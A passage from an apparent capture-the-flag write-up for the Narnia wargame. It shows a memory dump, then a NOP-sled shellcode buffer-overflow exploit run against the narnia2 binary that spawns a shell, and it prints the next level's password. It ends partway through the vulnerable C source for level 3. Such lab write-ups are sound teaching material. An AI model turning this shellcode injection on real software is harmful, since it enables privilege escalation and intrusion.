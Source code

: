 ```ruby
0xffffd70c: 0x41414141 0x41414141 0x41414141 0x41414141
0xffffd71c: 0x41414141 0x41414141 0x41414141 0x00414141
0xffffd72c: 0x4c454853 0x622f3d4c 0x622f6e69 0x00687361
<code snipped>
```

As we can see the buffer starts at approximately 0xffffd69c.
Since memory location may change from run to run, we should use a `nop sled` and approximate the memory location when running the program. Using the `nop sled` will allow us to bot be as accurate, and while we land in 100 byte range `0xffffd69c - 0xffffd272e` we will slide right into our shellcode.

Since the machine is x86-64 linux architecture, we could use [this shellcode](https://arc.net/l/quote/lfgmuqgm) .
```ruby
\x6a\x31\x58\x31\xd2\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80
```

Filling the shellcode with nops will provide us the following string.
And indeed this string does cause a buffer overflow!

```ruby
**narnia2@gibson**:**/narnia**$ ./narnia2 $(echo -n -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x31\x58\x31\xd2\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80\x90\x90\x90\x90\xe0\xd6\xff\xff")
$ whoami
narnia3
$ cat /etc/narnia_pass/narnia3
8SyQ2wyEDU
```

## Level 3

The source code for this challenge is:

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
  
int main(int argc, char **argv){
  
    int  ifd,  ofd;
    char ofile[16] = "/dev/null";
    char ifile[32];
    char buf[32];
  
    if(argc != 2){
        printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
        exit(-1);
    }
  
    /* open files */
    strcpy(ifile, argv[1]);
    if((ofd = open(ofile,O_RDWR)) < 0 ){
        printf("error opening %s\n", ofile);
        exit(-1);
    }
```